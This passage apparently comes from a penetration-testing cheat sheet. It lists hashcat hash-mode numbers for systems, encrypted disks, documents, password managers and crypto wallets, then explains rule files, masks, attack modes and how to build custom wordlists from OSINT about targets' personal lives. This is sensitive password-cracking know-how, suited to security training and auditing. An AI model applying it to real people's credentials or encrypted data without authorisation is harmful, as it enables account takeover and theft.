| 29000 | sha1($salt.sha1(utf16le($username).':'.utf16le($pass)))              | Operating System                      |
| 7400 | sha256crypt $5$, SHA256 (Unix)                                       | Operating System                      |
| 1800 | sha512crypt $6$, SHA512 (Unix)                                       | Operating System                      |
| 24600 | SQLCipher                                                            | Database Server                       |
|  131 | MSSQL (2000)                                                         | Database Server                       |
|  132 | MSSQL (2005)                                                         | Database Server                       |
| 1731 | MSSQL (2012, 2014)                                                   | Database Server                       |
| 24100 | MongoDB ServerKey SCRAM-SHA-1                                        | Database Server                       |
| 24200 | MongoDB ServerKey SCRAM-SHA-256                                      | Database Server                       |
|   12 | PostgreSQL                                                           | Database Server                       |
| 11100 | PostgreSQL CRAM (MD5)                                                | Database Server                       |
| 28600 | PostgreSQL SCRAM-SHA-256                                             | Database Server                       |
| 3100 | Oracle H: Type (Oracle 7+)                                           | Database Server                       |
|  112 | Oracle S: Type (Oracle 11+)                                          | Database Server                       |
| 12300 | Oracle T: Type (Oracle 12+)                                          | Database Server                       |
| 7401 | MySQL $A$ (sha256crypt)                                              | Database Server                       |
| 11200 | MySQL CRAM (SHA1)                                                    | Database Server                       |
|  200 | MySQL323                                                             | Database Server                       |
|  300 | MySQL4.1/MySQL5                                                      | Database Server                       |
| 8000 | Sybase ASE                                                           | Database Server                       |
| 8300 | DNSSEC (NSEC3)                                                       | FTP, HTTP, SMTP, LDAP Server          |
| 25900 | KNX IP Secure - Device Authentication Code                           | FTP, HTTP, SMTP, LDAP Server          |
| 16400 | CRAM-MD5 Dovecot                                                     | FTP, HTTP, SMTP, LDAP Server          |
| 1411 | SSHA-256(Base64), LDAP {SSHA256}                                     | FTP, HTTP, SMTP, LDAP Server          |
| 1711 | SSHA-512(Base64), LDAP {SSHA512}                                     | FTP, HTTP, SMTP, LDAP Server          |
| 24900 | Dahua Authentication MD5                                             | FTP, HTTP, SMTP, LDAP Server          |
| 10901 | RedHat 389-DS LDAP (PBKDF2-HMAC-SHA256)                              | FTP, HTTP, SMTP, LDAP Server          |
| 15000 | FileZilla Server >= 0.9.55                                           | FTP, HTTP, SMTP, LDAP Server          |
| 12600 | ColdFusion 10+                                                       | FTP, HTTP, SMTP, LDAP Server          |
| 1600 | Apache $apr1$ MD5, md5apr1, MD5 (APR)                                | FTP, HTTP, SMTP, LDAP Server          |
|  141 | Episerver 6.x < .NET 4                                               | FTP, HTTP, SMTP, LDAP Server          |
| 1441 | Episerver 6.x >= .NET 4                                              | FTP, HTTP, SMTP, LDAP Server          |
| 1421 | hMailServer                                                          | FTP, HTTP, SMTP, LDAP Server          |
|  101 | nsldap, SHA-1(Base64), Netscape LDAP SHA                             | FTP, HTTP, SMTP, LDAP Server          |
|  111 | nsldaps, SSHA-1(Base64), Netscape LDAP SSHA                          | FTP, HTTP, SMTP, LDAP Server          |
| 7700 | SAP CODVN B (BCODE)                                                  | Enterprise Application Software (EAS)  |
| 7701 | SAP CODVN B (BCODE) from RFC_READ_TABLE                              | Enterprise Application Software (EAS)  |
| 7800 | SAP CODVN F/G (PASSCODE)                                             | Enterprise Application Software (EAS)  |
| 7801 | SAP CODVN F/G (PASSCODE) from RFC_READ_TABLE                         | Enterprise Application Software (EAS)  |
| 10300 | SAP CODVN H (PWDSALTEDHASH) iSSHA-1                                  | Enterprise Application Software (EAS)  |
|  133 | PeopleSoft                                                           | Enterprise Application Software (EAS)  |
| 13500 | PeopleSoft PS_TOKEN                                                  | Enterprise Application Software (EAS)  |
| 21500 | SolarWinds Orion                                                     | Enterprise Application Software (EAS)  |
| 21501 | SolarWinds Orion v2                                                  | Enterprise Application Software (EAS)  |
|   24 | SolarWinds Serv-U                                                    | Enterprise Application Software (EAS)  |
| 8600 | Lotus Notes/Domino 5                                                 | Enterprise Application Software (EAS)  |
| 8700 | Lotus Notes/Domino 6                                                 | Enterprise Application Software (EAS)  |
| 9100 | Lotus Notes/Domino 8                                                 | Enterprise Application Software (EAS)  |
| 26200 | OpenEdge Progress Encode                                             | Enterprise Application Software (EAS)  |
| 20600 | Oracle Transportation Management (SHA256)                            | Enterprise Application Software (EAS)  |
| 4711 | Huawei sha1(md5($pass).$salt)                                        | Enterprise Application Software (EAS)  |
| 20711 | AuthMe sha256                                                        | Enterprise Application Software (EAS)  |
| 22400 | AES Crypt (SHA256)                                                   | Full-Disk Encryption (FDE)            |
| 27400 | VMware VMX (PBKDF2-HMAC-SHA1 + AES-256-CBC)                          | Full-Disk Encryption (FDE)            |
| 14600 | LUKS v1 (legacy)                                                     | Full-Disk Encryption (FDE)            |
| 29541 | LUKS v1 RIPEMD-160 + AES                                             | Full-Disk Encryption (FDE)            |
| 29542 | LUKS v1 RIPEMD-160 + Serpent                                         | Full-Disk Encryption (FDE)            |
| 29543 | LUKS v1 RIPEMD-160 + Twofish                                         | Full-Disk Encryption (FDE)            |
| 29511 | LUKS v1 SHA-1 + AES                                                  | Full-Disk Encryption (FDE)            |
| 29512 | LUKS v1 SHA-1 + Serpent                                              | Full-Disk Encryption (FDE)            |
| 29513 | LUKS v1 SHA-1 + Twofish                                              | Full-Disk Encryption (FDE)            |
| 29521 | LUKS v1 SHA-256 + AES                                                | Full-Disk Encryption (FDE)            |
| 29522 | LUKS v1 SHA-256 + Serpent                                            | Full-Disk Encryption (FDE)            |
| 29523 | LUKS v1 SHA-256 + Twofish                                            | Full-Disk Encryption (FDE)            |
| 29531 | LUKS v1 SHA-512 + AES                                                | Full-Disk Encryption (FDE)            |
| 29532 | LUKS v1 SHA-512 + Serpent                                            | Full-Disk Encryption (FDE)            |
| 29533 | LUKS v1 SHA-512 + Twofish                                            | Full-Disk Encryption (FDE)            |
| 13711 | VeraCrypt RIPEMD160 + XTS 512 bit (legacy)                           | Full-Disk Encryption (FDE)            |
| 13712 | VeraCrypt RIPEMD160 + XTS 1024 bit (legacy)                          | Full-Disk Encryption (FDE)            |
| 13713 | VeraCrypt RIPEMD160 + XTS 1536 bit (legacy)                          | Full-Disk Encryption (FDE)            |
| 13741 | VeraCrypt RIPEMD160 + XTS 512 bit + boot-mode (legacy)               | Full-Disk Encryption (FDE)            |
| 13742 | VeraCrypt RIPEMD160 + XTS 1024 bit + boot-mode (legacy)              | Full-Disk Encryption (FDE)            |
| 13743 | VeraCrypt RIPEMD160 + XTS 1536 bit + boot-mode (legacy)              | Full-Disk Encryption (FDE)            |
| 29411 | VeraCrypt RIPEMD160 + XTS 512 bit                                    | Full-Disk Encryption (FDE)            |
| 29412 | VeraCrypt RIPEMD160 + XTS 1024 bit                                   | Full-Disk Encryption (FDE)            |
| 29413 | VeraCrypt RIPEMD160 + XTS 1536 bit                                   | Full-Disk Encryption (FDE)            |
| 29441 | VeraCrypt RIPEMD160 + XTS 512 bit + boot-mode                        | Full-Disk Encryption (FDE)            |
| 29442 | VeraCrypt RIPEMD160 + XTS 1024 bit + boot-mode                       | Full-Disk Encryption (FDE)            |
| 29443 | VeraCrypt RIPEMD160 + XTS 1536 bit + boot-mode                       | Full-Disk Encryption (FDE)            |
| 13751 | VeraCrypt SHA256 + XTS 512 bit (legacy)                              | Full-Disk Encryption (FDE)            |
| 13752 | VeraCrypt SHA256 + XTS 1024 bit (legacy)                             | Full-Disk Encryption (FDE)            |
| 13753 | VeraCrypt SHA256 + XTS 1536 bit (legacy)                             | Full-Disk Encryption (FDE)            |
| 13761 | VeraCrypt SHA256 + XTS 512 bit + boot-mode (legacy)                  | Full-Disk Encryption (FDE)            |
| 13762 | VeraCrypt SHA256 + XTS 1024 bit + boot-mode (legacy)                 | Full-Disk Encryption (FDE)            |
| 13763 | VeraCrypt SHA256 + XTS 1536 bit + boot-mode (legacy)                 | Full-Disk Encryption (FDE)            |
| 29451 | VeraCrypt SHA256 + XTS 512 bit                                       | Full-Disk Encryption (FDE)            |
| 29452 | VeraCrypt SHA256 + XTS 1024 bit                                      | Full-Disk Encryption (FDE)            |
| 29453 | VeraCrypt SHA256 + XTS 1536 bit                                      | Full-Disk Encryption (FDE)            |
| 29461 | VeraCrypt SHA256 + XTS 512 bit + boot-mode                           | Full-Disk Encryption (FDE)            |
| 29462 | VeraCrypt SHA256 + XTS 1024 bit + boot-mode                          | Full-Disk Encryption (FDE)            |
| 29463 | VeraCrypt SHA256 + XTS 1536 bit + boot-mode                          | Full-Disk Encryption (FDE)            |
| 13721 | VeraCrypt SHA512 + XTS 512 bit (legacy)                              | Full-Disk Encryption (FDE)            |
| 13722 | VeraCrypt SHA512 + XTS 1024 bit (legacy)                             | Full-Disk Encryption (FDE)            |
| 13723 | VeraCrypt SHA512 + XTS 1536 bit (legacy)                             | Full-Disk Encryption (FDE)            |
| 29421 | VeraCrypt SHA512 + XTS 512 bit                                       | Full-Disk Encryption (FDE)            |
| 29422 | VeraCrypt SHA512 + XTS 1024 bit                                      | Full-Disk Encryption (FDE)            |
| 29423 | VeraCrypt SHA512 + XTS 1536 bit                                      | Full-Disk Encryption (FDE)            |
| 13771 | VeraCrypt Streebog-512 + XTS 512 bit (legacy)                        | Full-Disk Encryption (FDE)            |
| 13772 | VeraCrypt Streebog-512 + XTS 1024 bit (legacy)                       | Full-Disk Encryption (FDE)            |
| 13773 | VeraCrypt Streebog-512 + XTS 1536 bit (legacy)                       | Full-Disk Encryption (FDE)            |
| 13781 | VeraCrypt Streebog-512 + XTS 512 bit + boot-mode (legacy)            | Full-Disk Encryption (FDE)            |
| 13782 | VeraCrypt Streebog-512 + XTS 1024 bit + boot-mode (legacy)           | Full-Disk Encryption (FDE)            |
| 13783 | VeraCrypt Streebog-512 + XTS 1536 bit + boot-mode (legacy)           | Full-Disk Encryption (FDE)            |
| 29471 | VeraCrypt Streebog-512 + XTS 512 bit                                 | Full-Disk Encryption (FDE)            |
| 29472 | VeraCrypt Streebog-512 + XTS 1024 bit                                | Full-Disk Encryption (FDE)            |
| 29473 | VeraCrypt Streebog-512 + XTS 1536 bit                                | Full-Disk Encryption (FDE)            |
| 29481 | VeraCrypt Streebog-512 + XTS 512 bit + boot-mode                     | Full-Disk Encryption (FDE)            |
| 29482 | VeraCrypt Streebog-512 + XTS 1024 bit + boot-mode                    | Full-Disk Encryption (FDE)            |
| 29483 | VeraCrypt Streebog-512 + XTS 1536 bit + boot-mode                    | Full-Disk Encryption (FDE)            |
| 13731 | VeraCrypt Whirlpool + XTS 512 bit (legacy)                           | Full-Disk Encryption (FDE)            |
| 13732 | VeraCrypt Whirlpool + XTS 1024 bit (legacy)                          | Full-Disk Encryption (FDE)            |
| 13733 | VeraCrypt Whirlpool + XTS 1536 bit (legacy)                          | Full-Disk Encryption (FDE)            |
| 29431 | VeraCrypt Whirlpool + XTS 512 bit                                    | Full-Disk Encryption (FDE)            |
| 29432 | VeraCrypt Whirlpool + XTS 1024 bit                                   | Full-Disk Encryption (FDE)            |
| 29433 | VeraCrypt Whirlpool + XTS 1536 bit                                   | Full-Disk Encryption (FDE)            |
| 23900 | BestCrypt v3 Volume Encryption                                       | Full-Disk Encryption (FDE)            |
| 16700 | FileVault 2                                                          | Full-Disk Encryption (FDE)            |
| 27500 | VirtualBox (PBKDF2-HMAC-SHA256 & AES-128-XTS)                        | Full-Disk Encryption (FDE)            |
| 27600 | VirtualBox (PBKDF2-HMAC-SHA256 & AES-256-XTS)                        | Full-Disk Encryption (FDE)            |
| 20011 | DiskCryptor SHA512 + XTS 512 bit                                     | Full-Disk Encryption (FDE)            |
| 20012 | DiskCryptor SHA512 + XTS 1024 bit                                    | Full-Disk Encryption (FDE)            |
| 20013 | DiskCryptor SHA512 + XTS 1536 bit                                    | Full-Disk Encryption (FDE)            |
| 22100 | BitLocker                                                            | Full-Disk Encryption (FDE)            |
| 12900 | Android FDE (Samsung DEK)                                            | Full-Disk Encryption (FDE)            |
| 8800 | Android FDE <= 4.3                                                   | Full-Disk Encryption (FDE)            |
| 18300 | Apple File System (APFS)                                             | Full-Disk Encryption (FDE)            |
| 6211 | TrueCrypt RIPEMD160 + XTS 512 bit (legacy)                           | Full-Disk Encryption (FDE)            |
| 6212 | TrueCrypt RIPEMD160 + XTS 1024 bit (legacy)                          | Full-Disk Encryption (FDE)            |
| 6213 | TrueCrypt RIPEMD160 + XTS 1536 bit (legacy)                          | Full-Disk Encryption (FDE)            |
| 6241 | TrueCrypt RIPEMD160 + XTS 512 bit + boot-mode (legacy)               | Full-Disk Encryption (FDE)            |
| 6242 | TrueCrypt RIPEMD160 + XTS 1024 bit + boot-mode (legacy)              | Full-Disk Encryption (FDE)            |
| 6243 | TrueCrypt RIPEMD160 + XTS 1536 bit + boot-mode (legacy)              | Full-Disk Encryption (FDE)            |
| 29311 | TrueCrypt RIPEMD160 + XTS 512 bit                                    | Full-Disk Encryption (FDE)            |
| 29312 | TrueCrypt RIPEMD160 + XTS 1024 bit                                   | Full-Disk Encryption (FDE)            |
| 29313 | TrueCrypt RIPEMD160 + XTS 1536 bit                                   | Full-Disk Encryption (FDE)            |
| 29341 | TrueCrypt RIPEMD160 + XTS 512 bit + boot-mode                        | Full-Disk Encryption (FDE)            |
| 29342 | TrueCrypt RIPEMD160 + XTS 1024 bit + boot-mode                       | Full-Disk Encryption (FDE)            |
| 29343 | TrueCrypt RIPEMD160 + XTS 1536 bit + boot-mode                       | Full-Disk Encryption (FDE)            |
| 6221 | TrueCrypt SHA512 + XTS 512 bit (legacy)                              | Full-Disk Encryption (FDE)            |
| 6222 | TrueCrypt SHA512 + XTS 1024 bit (legacy)                             | Full-Disk Encryption (FDE)            |
| 6223 | TrueCrypt SHA512 + XTS 1536 bit (legacy)                             | Full-Disk Encryption (FDE)            |
| 29321 | TrueCrypt SHA512 + XTS 512 bit                                       | Full-Disk Encryption (FDE)            |
| 29322 | TrueCrypt SHA512 + XTS 1024 bit                                      | Full-Disk Encryption (FDE)            |
| 29323 | TrueCrypt SHA512 + XTS 1536 bit                                      | Full-Disk Encryption (FDE)            |
| 6231 | TrueCrypt Whirlpool + XTS 512 bit (legacy)                           | Full-Disk Encryption (FDE)            |
| 6232 | TrueCrypt Whirlpool + XTS 1024 bit (legacy)                          | Full-Disk Encryption (FDE)            |
| 6233 | TrueCrypt Whirlpool + XTS 1536 bit (legacy)                          | Full-Disk Encryption (FDE)            |
| 29331 | TrueCrypt Whirlpool + XTS 512 bit                                    | Full-Disk Encryption (FDE)            |
| 29332 | TrueCrypt Whirlpool + XTS 1024 bit                                   | Full-Disk Encryption (FDE)            |
| 29333 | TrueCrypt Whirlpool + XTS 1536 bit                                   | Full-Disk Encryption (FDE)            |
| 12200 | eCryptfs                                                             | Full-Disk Encryption (FDE)            |
| 10400 | PDF 1.1 - 1.3 (Acrobat 2 - 4)                                        | Document                              |
| 10410 | PDF 1.1 - 1.3 (Acrobat 2 - 4), collider #1                           | Document                              |
| 10420 | PDF 1.1 - 1.3 (Acrobat 2 - 4), collider #2                           | Document                              |
| 10500 | PDF 1.4 - 1.6 (Acrobat 5 - 8)                                        | Document                              |
| 25400 | PDF 1.4 - 1.6 (Acrobat 5 - 8) - user and owner pass                  | Document                              |
| 10600 | PDF 1.7 Level 3 (Acrobat 9)                                          | Document                              |
| 10700 | PDF 1.7 Level 8 (Acrobat 10 - 11)                                    | Document                              |
| 9400 | MS Office 2007                                                       | Document                              |
| 9500 | MS Office 2010                                                       | Document                              |
| 9600 | MS Office 2013                                                       | Document                              |
| 25300 | MS Office 2016 - SheetProtection                                     | Document                              |
| 9700 | MS Office <= 2003 $0/$1, MD5 + RC4                                   | Document                              |
| 9710 | MS Office <= 2003 $0/$1, MD5 + RC4, collider #1                      | Document                              |
| 9720 | MS Office <= 2003 $0/$1, MD5 + RC4, collider #2                      | Document                              |
| 9810 | MS Office <= 2003 $3, SHA1 + RC4, collider #1                        | Document                              |
| 9820 | MS Office <= 2003 $3, SHA1 + RC4, collider #2                        | Document                              |
| 9800 | MS Office <= 2003 $3/$4, SHA1 + RC4                                  | Document                              |
| 18400 | Open Document Format (ODF) 1.2 (SHA-256, AES)                        | Document                              |
| 18600 | Open Document Format (ODF) 1.1 (SHA-1, Blowfish)                     | Document                              |
| 16200 | Apple Secure Notes                                                   | Document                              |
| 23300 | Apple iWork                                                          | Document                              |
| 6600 | 1Password, agilekeychain                                             | Password Manager                      |
| 8200 | 1Password, cloudkeychain                                             | Password Manager                      |
| 9000 | Password Safe v2                                                     | Password Manager                      |
| 5200 | Password Safe v3                                                     | Password Manager                      |
| 6800 | LastPass + LastPass sniffed                                          | Password Manager                      |
| 13400 | KeePass 1 (AES/Twofish) and KeePass 2 (AES)                          | Password Manager                      |
| 29700 | KeePass 1 (AES/Twofish) and KeePass 2 (AES) - keyfile only mode      | Password Manager                      |
| 23400 | Bitwarden                                                            | Password Manager                      |
| 16900 | Ansible Vault                                                        | Password Manager                      |
| 26000 | Mozilla key3.db                                                      | Password Manager                      |
| 26100 | Mozilla key4.db                                                      | Password Manager                      |
| 23100 | Apple Keychain                                                       | Password Manager                      |
| 11600 | 7-Zip                                                                | Archive                               |
| 12500 | RAR3-hp                                                              | Archive                               |
| 23800 | RAR3-p (Compressed)                                                  | Archive                               |
| 23700 | RAR3-p (Uncompressed)                                                | Archive                               |
| 13000 | RAR5                                                                 | Archive                               |
| 17220 | PKZIP (Compressed Multi-File)                                        | Archive                               |
| 17200 | PKZIP (Compressed)                                                   | Archive                               |
| 17225 | PKZIP (Mixed Multi-File)                                             | Archive                               |
| 17230 | PKZIP (Mixed Multi-File Checksum-Only)                               | Archive                               |
| 17210 | PKZIP (Uncompressed)                                                 | Archive                               |
| 20500 | PKZIP Master Key                                                     | Archive                               |
| 20510 | PKZIP Master Key (6 byte optimization)                               | Archive                               |
| 23001 | SecureZIP AES-128                                                    | Archive                               |
| 23002 | SecureZIP AES-192                                                    | Archive                               |
| 23003 | SecureZIP AES-256                                                    | Archive                               |
| 13600 | WinZip                                                               | Archive                               |
| 18900 | Android Backup                                                       | Archive                               |
| 24700 | Stuffit5                                                             | Archive                               |
| 13200 | AxCrypt 1                                                            | Archive                               |
| 13300 | AxCrypt 1 in-memory SHA1                                             | Archive                               |
| 23500 | AxCrypt 2 AES-128                                                    | Archive                               |
| 23600 | AxCrypt 2 AES-256                                                    | Archive                               |
| 14700 | iTunes backup < 10.0                                                 | Archive                               |
| 14800 | iTunes backup >= 10.0                                                | Archive                               |
| 8400 | WBB3 (Woltlab Burning Board)                                         | Forums, CMS, E-Commerce               |
| 2612 | PHPS                                                                 | Forums, CMS, E-Commerce               |
| 121 | SMF (Simple Machines Forum) > v1.1                                   | Forums, CMS, E-Commerce               |
| 3711 | MediaWiki B type                                                     | Forums, CMS, E-Commerce               |
| 4521 | Redmine                                                              | Forums, CMS, E-Commerce               |
| 24800 | Umbraco HMAC-SHA1                                                    | Forums, CMS, E-Commerce               |
| 11 | Joomla < 2.5.18                                                      | Forums, CMS, E-Commerce               |
| 13900 | OpenCart                                                             | Forums, CMS, E-Commerce               |
| 11000 | PrestaShop                                                           | Forums, CMS, E-Commerce               |
| 16000 | Tripcode                                                             | Forums, CMS, E-Commerce               |
| 7900 | Drupal7                                                              | Forums, CMS, E-Commerce               |
| 4522 | PunBB                                                                | Forums, CMS, E-Commerce               |
| 2811 | MyBB 1.2+, IPB2+ (Invision Power Board)                              | Forums, CMS, E-Commerce               |
| 2611 | vBulletin < v3.8.5                                                   | Forums, CMS, E-Commerce               |
| 2711 | vBulletin >= v3.8.5                                                  | Forums, CMS, E-Commerce               |
| 25600 | bcrypt(md5($pass)) / bcryptmd5                                       | Forums, CMS, E-Commerce               |
| 25800 | bcrypt(sha1($pass)) / bcryptsha1                                     | Forums, CMS, E-Commerce               |
| 28400 | bcrypt(sha512($pass)) / bcryptsha512                                 | Forums, CMS, E-Commerce               |
| 21 | osCommerce, xt:Commerce                                              | Forums, CMS, E-Commerce               |
| 18100 | TOTP (HMAC-SHA1)                                                     | One-Time Password                     |
| 2000 | STDOUT                                                               | Plaintext                             |
| 99999 | Plaintext                                                            | Plaintext                             |
| 21600 | Web2py pbkdf2-sha512                                                 | Framework                             |
| 10000 | Django (PBKDF2-SHA256)                                               | Framework                             |
| 124 | Django (SHA-1)                                                       | Framework                             |
| 12001 | Atlassian (PBKDF2-HMAC-SHA1)                                         | Framework                             |
| 19500 | Ruby on Rails Restful-Authentication                                 | Framework                             |
| 27200 | Ruby on Rails Restful Auth (one round, no sitekey)                   | Framework                             |
| 30000 | Python Werkzeug MD5 (HMAC-MD5 (key = $salt))                         | Framework                             |
| 30120 | Python Werkzeug SHA256 (HMAC-SHA256 (key = $salt))                   | Framework                             |
| 20200 | Python passlib pbkdf2-sha512                                         | Framework                             |
| 20300 | Python passlib pbkdf2-sha256                                         | Framework                             |
| 20400 | Python passlib pbkdf2-sha1                                           | Framework                             |
| 24410 | PKCS#8 Private Keys (PBKDF2-HMAC-SHA1 + 3DES/AES)                    | Private Key                           |
| 24420 | PKCS#8 Private Keys (PBKDF2-HMAC-SHA256 + 3DES/AES)                  | Private Key                           |
| 15500 | JKS Java Key Store Private Keys (SHA1)                               | Private Key                           |
| 22911 | RSA/DSA/EC/OpenSSH Private Keys ($0$)                                | Private Key                           |
| 22921 | RSA/DSA/EC/OpenSSH Private Keys ($6$)                                | Private Key                           |
| 22931 | RSA/DSA/EC/OpenSSH Private Keys ($1, $3$)                            | Private Key                           |
| 22941 | RSA/DSA/EC/OpenSSH Private Keys ($4$)                                | Private Key                           |
| 22951 | RSA/DSA/EC/OpenSSH Private Keys ($5$)                                | Private Key                           |
| 23200 | XMPP SCRAM PBKDF2-SHA1                                               | Instant Messaging Service             |
| 28300 | Teamspeak 3 (channel hash)                                           | Instant Messaging Service             |
| 22600 | Telegram Desktop < v2.1.14 (PBKDF2-HMAC-SHA1)                        | Instant Messaging Service             |
| 24500 | Telegram Desktop >= v2.1.14 (PBKDF2-HMAC-SHA512)                     | Instant Messaging Service             |
| 22301 | Telegram Mobile App Passcode (SHA256)                                | Instant Messaging Service             |
| 23 | Skype                                                                | Instant Messaging Service             |
| 29600 | Terra Station Wallet (AES256-CBC(PBKDF2($pass)))                     | Cryptocurrency Wallet                 |
| 26600 | MetaMask Wallet                                                      | Cryptocurrency Wallet                 |
| 21000 | BitShares v0.x - sha512(sha512_bin(pass))                            | Cryptocurrency Wallet                 |
| 28501 | Bitcoin WIF private key (P2PKH), compressed                          | Cryptocurrency Wallet                 |
| 28502 | Bitcoin WIF private key (P2PKH), uncompressed                        | Cryptocurrency Wallet                 |
| 28503 | Bitcoin WIF private key (P2WPKH, Bech32), compressed                 | Cryptocurrency Wallet                 |
| 28504 | Bitcoin WIF private key (P2WPKH, Bech32), uncompressed               | Cryptocurrency Wallet                 |
| 28505 | Bitcoin WIF private key (P2SH(P2WPKH)), compressed                   | Cryptocurrency Wallet                 |
| 28506 | Bitcoin WIF private key (P2SH(P2WPKH)), uncompressed                 | Cryptocurrency Wallet                 |
| 11300 | Bitcoin/Litecoin wallet.dat                                          | Cryptocurrency Wallet                 |
| 16600 | Electrum Wallet (Salt-Type 1-3)                                      | Cryptocurrency Wallet                 |
| 21700 | Electrum Wallet (Salt-Type 4)                                        | Cryptocurrency Wallet                 |
| 21800 | Electrum Wallet (Salt-Type 5)                                        | Cryptocurrency Wallet                 |
| 12700 | Blockchain, My Wallet                                                | Cryptocurrency Wallet                 |
| 15200 | Blockchain, My Wallet, V2                                            | Cryptocurrency Wallet                 |
| 18800 | Blockchain, My Wallet, Second Password (SHA256)                      | Cryptocurrency Wallet                 |
| 25500 | Stargazer Stellar Wallet XLM                                         | Cryptocurrency Wallet                 |
| 16300 | Ethereum Pre-Sale Wallet, PBKDF2-HMAC-SHA256                         | Cryptocurrency Wallet                 |
| 15600 | Ethereum Wallet, PBKDF2-HMAC-SHA256                                  | Cryptocurrency Wallet                 |
| 15700 | Ethereum Wallet, SCRYPT                                              | Cryptocurrency Wallet                 |
| 22500 | MultiBit Classic .key (MD5)                                          | Cryptocurrency Wallet                 |
| 27700 | MultiBit Classic .wallet (scrypt)                                    | Cryptocurrency Wallet                 |
| 22700 | MultiBit HD (scrypt)                                                 | Cryptocurrency Wallet                 |
| 28200 | Exodus Desktop Wallet (scrypt)                                       | Cryptocurrency Wallet                 |

</details>

<details>
<summary><h3>Hashcat Rules</h3></summary>

| Rule File                          | Description                                                                 |
|------------------------------------|-----------------------------------------------------------------------------|
| `best64.rule`                     | Contains 64 of the most effective password mutation rules                   |
| `combinator.rule`                 | Combines words from two dictionaries (pairwise combinations)                |
| `d3ad0ne.rule`                    | Extensive rule set with complex transformations (origin unknown)            |
| `dive.rule`                       | Very large rule set with deep mutation patterns                             |
| `generated.rule`                  | Automatically generated rule set (basic version)                            |
| `generated2.rule`                 | Expanded version of generated.rule with more variations                     |
| `Incisive-leetspeak.rule`         | Advanced leet speak substitutions (e.g., a->4, e->3, etc.)                  |
| `InsidePro-HashManager.rule`      | Rule set from InsidePro's HashManager tool                                  |
| `InsidePro-PasswordsPro.rule`     | Rule set from InsidePro's PasswordsPro tool                                 |
| `leetspeak.rule`                  | Basic leet speak character substitutions                                    |
| `oscommerce.rule`                 | Specific rules targeting osCommerce password patterns                       |
| `rockyou-30000.rule`              | Rule set derived from patterns in the rockyou.txt password list             |
| `specific.rule`                   | Targeted rules for specific password mutation scenarios                     |
| `T0XlC*` rules                    | Comprehensive rule sets with various insertion patterns (numbers, specials) |
| `toggles1.rule`                   | Simple case toggle rules (minimal changes)                                  |
| `toggles2-5.rule`                 | Progressively more complex case toggle combinations                         |
| `unix-ninja-leetspeak.rule`       | Advanced leet speak rules from Unix-Ninja                                   |

*Note: Hybrid rules are in the `/hybrid` subdirectory and combine multiple rule types*

</details>

<details>
<summary><h3>Hashcat Masks</h3></summary>

| Symbol | Charset Description                     | Example Characters                     |
|--------|-----------------------------------------|----------------------------------------|
| `?l`   | Lowercase ASCII letters                 | abcdefghijklmnopqrstuvwxyz            |
| `?u`   | Uppercase ASCII letters                 | ABCDEFGHIJKLMNOPQRSTUVWXYZ            |
| `?d`   | Digits                                  | 0123456789                            |
| `?h`   | Lowercase hexadecimal digits            | 0123456789abcdef                      |
| `?H`   | Uppercase hexadecimal digits            | 0123456789ABCDEF                      |
| `?s`   | Special characters                      | !"#$%&'()*+,-./:;<=>?@[]^_\`{|}~   |
| `?a`   | All printable ASCII (lower+upper+digits+special) | Equivalent to `?l?u?d?s`       |
| `?b`   | All possible byte values (0x00-0xff)    | Non-printable characters included      |

</details>

<details>
<summary><h3>Hashcat Attack Modes</h3></summary>

| Mode | Attack Name          | Description                                                                 |
|------|----------------------|-----------------------------------------------------------------------------|
| 0    | Straight/Dictionary  | Uses words from a dictionary file without modification                      |
| 1    | Combination          | Combines words from multiple dictionaries (pairwise concatenation)          |
| 3    | Brute-Force/Mask     | Generates passwords based on character sets and position patterns           |
| 4    | Rule-Based           | Applies transformation rules to dictionary words (deprecated in v7+)        |
| 5    | Markov-Chain         | Uses statistical models to generate password candidates (deprecated)        |
| 6    | Hybrid Dict+Mask     | Appends mask patterns to each word from a dictionary                        |
| 7    | Hybrid Mask+Dict     | Prepends mask patterns to each word from a dictionary                       |
| 8    | Prince               | PRobability INfinite Chained Elements attack (advanced combinatorics)       |
| 9    | Association          | Uses contextual information (like usernames) to generate attack rules       |

1. **Most Common Attacks**: Modes 0 (dictionary) and 3 (mask) are most frequently used
2. **Hybrid Attacks**: Modes 6 and 7 combine dictionary and mask approaches
3. **Deprecated Modes**: Modes 4 and 5 were replaced by more efficient implementations
4. **Prince Attack**: Mode 8 generates probabilistic chains of dictionary fragments

</details>

</details>

<details>
<summary><h2>Writing Custom Wordlists and Rules</h2></summary>

Many users create their passwords based on simplicity rather than security.

Most people tend to follow predictable patterns when creating passwords. They often:

- Use words related to the service or platform (e.g., including the company's name for work-related accounts).
- Incorporate personal interests or elements from daily life.
- Choose passwords no longer than ten characters (according to statistics provided by [WP Engine](https://wpengine.com/resources/passwords-unmasked-infographic/)).

Common sources of inspiration include:

- **Pets** – names like "fluffy123" or "rex_the_dog"
- **Friends or Family** – nicknames or birth years
- **Sports** – favorite teams, player numbers, or sports terminology
- **Hobbies** – gaming aliases, instruments, or favorite books
- **Pop culture** – movie titles, characters, or song lyrics

Even basic OSINT (Open Source Intelligence) techniques can uncover this kind of personal information, which can be leveraged to guess or crack passwords effectively.

Commonly, users use the following additions for their password to fit the most common password policies:

| **Description**                         | **Password Syntax**     |
|----------------------------------------|--------------------------|
| First letter is uppercase              | `Password`               |
| Adding numbers                         | `Password123`            |
| Adding year                            | `Password2022`           |
| Adding month                           | `Password02`             |
| Last character is an exclamation mark  | `Password2022!`          |
| Adding special characters              | `P@ssw0rd2022!`          |

<details>
<summary><h3>Generating Wordlists using Hashcat</h3></summary>

We can use Hashcat to combine lists of potential names and labels with specific mutation rules to create custom wordlists. Hashcat uses a specific syntax to define characters, words, and their transformations.

| **Name**             | **Function** | **Description**                                          | **Example Rule** | **Input Word** | **Output Word**        |
|----------------------|--------------|----------------------------------------------------------|------------------|----------------|-------------------------|
| Nothing              | :            | Do nothing (passthrough)                                | :                | p@ssW0rd       | p@ssW0rd               |
| Lowercase            | l            | Lowercase all letters                                   | l                | p@ssW0rd       | p@ssw0rd               |
| Uppercase            | u            | Uppercase all letters                                   | u                | p@ssW0rd       | P@SSW0RD               |
| Capitalize           | c            | Capitalize first character, lowercase the rest          | c                | p@ssW0rd       | P@ssw0rd               |
| Invert Capitalize    | C            | Lowercase first character, uppercase the rest           | C                | p@ssW0rd       | p@SSW0RD               |
| Toggle Case          | t            | Toggle the case of all characters                       | t                | p@ssW0rd       | P@SSw0RD               |
| Toggle @ N           | TN           | Toggle case at position N                               | T3               | p@ssW0rd       | p@sSW0rd               |
| Reverse              | r            | Reverse the entire word                                 | r                | p@ssW0rd       | dr0Wss@p               |
